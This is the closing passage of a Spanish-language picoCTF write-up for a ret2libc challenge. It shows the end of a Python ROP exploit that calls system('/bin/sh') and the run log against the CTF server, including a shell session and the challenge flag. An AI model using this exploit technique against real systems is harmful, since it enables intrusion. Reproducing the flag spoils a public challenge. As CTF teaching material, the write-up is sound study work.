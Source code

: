 ```py

system = libc + offset_system
bin_sh = libc + offset_bin_sh 

payload = padding
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(0x40052e)
payload += p64(system)

p.sendline(payload)
p.interactive()
```
### Flag

Y ahora ya tenemos la flag:

```bash
python3 exploit.py                                                ─╯
[+] Opening connection to mercury.picoctf.net on port 42072: Done
[*] Direccion de puts en tiempo de ejecucion: 0x7f8fa1699a30
[*] Direccion base de libc: 0x7f8fa1619000
[*] Switching to interactive mode
WeLcOmE To mY EcHo sErVeR!
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
$ cat flag.txt
picoCTF{1_<3_sm4sh_st4cking_3a9ee516616d21b3}
$ whoami
here-s-a-libc_0
```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/hereLibc/waifu.gif)
